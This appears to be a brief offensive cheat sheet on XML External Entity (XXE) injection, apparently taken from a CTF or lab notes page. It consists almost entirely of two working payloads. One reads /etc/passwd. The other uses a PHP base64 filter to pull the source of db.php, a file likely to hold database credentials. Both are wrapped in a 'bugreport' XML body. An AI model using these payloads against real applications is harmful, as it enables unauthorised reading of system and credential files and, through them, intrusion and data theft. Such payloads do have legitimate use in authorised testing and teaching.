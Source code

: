 # XXE
----

Basic payload:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "/etc/passwd">
]>
		<bugreport>
		<title>&file;</title>
		<cwe>12</cwe>
		<cvss>33</cvss>
		<reward>9090</reward>
		</bugreport>
```

In PHP applications, xml wont be able to parse bad characters so we have to base64 encode it to retrieve files:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>12</cwe>
		<cvss>33</cvss>
		<reward>9090</reward>
``` 